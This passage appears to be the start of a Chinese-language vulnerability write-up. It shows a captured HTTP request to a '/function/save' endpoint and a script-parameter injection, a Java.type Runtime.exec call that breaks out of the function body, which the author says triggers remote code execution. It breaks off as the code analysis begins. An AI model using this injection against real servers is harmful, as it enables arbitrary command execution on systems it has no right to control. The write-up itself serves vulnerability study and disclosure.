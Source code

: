 抓包：

```plain
POST /function/save HTTP/1.1
Host: 10.151.220.236:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 93
Origin: http://10.151.220.236:8088
Connection: close
Referer: http://10.151.220.236:8088/function-edit.html
Cookie: JSESSIONID=43BED3B6A9E85CBF4C4754F334C36953; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706163744; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706167658

id=&name=aaa&parameter=aaa&script=aaa
```

设置 script 参数为`}Java.type('java.lang.Runtime').getRuntime().exec('calc');{`

[![](assets/1706959434-2f78cdb80e2b96dc141f832e6049a8a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125205205-8af63996-bb80-1.png)

触发 rce

## 漏洞分析

通过/function/save 找到对应的 controller：FunctionController

